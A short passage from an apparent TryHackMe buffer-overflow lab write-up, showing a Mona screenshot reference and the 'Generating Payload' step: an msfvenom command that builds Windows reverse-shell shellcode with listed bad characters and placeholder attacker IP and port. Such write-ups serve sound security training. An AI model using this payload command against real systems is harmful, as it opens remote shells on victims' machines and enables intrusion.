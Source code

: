 ![Mona jmp](/images/THM/buffprep/of5/Captura8.PNG)

##### Generating Payload

It's time to generate the payload.

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=<OUR IP> LPORT=<Port that we want> EXITFUNC=thread -b "\x00,\x16,\x2f,\xf4,\xfd" -f c
```
